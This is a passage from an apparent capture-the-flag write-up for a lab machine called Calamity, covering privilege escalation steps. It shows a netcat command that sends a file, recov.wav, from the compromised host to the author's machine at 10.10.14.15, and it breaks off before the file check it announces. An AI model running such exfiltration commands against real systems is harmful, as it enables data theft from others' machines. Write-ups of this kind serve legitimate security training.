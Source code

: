 # Privillage Escalation

In `/home/xalvas` there is a `recov.wav` file. There is also an `alarmclocks` directory which contains a `rick.wav` file. lets send this to our machine as you can see i tried with a lot of nc it was being killed but eventually the last one was able to get me the file

```sh
nc 10.10.14.15 9000 < recov.wav
```

![](/Linux/Linux-Hard/Calamity/Screenshots/nc.png)

![](/Linux/Linux-Hard/Calamity/Screenshots/reco.png)

so lets confirm the the files to see that we have not tampared with anything
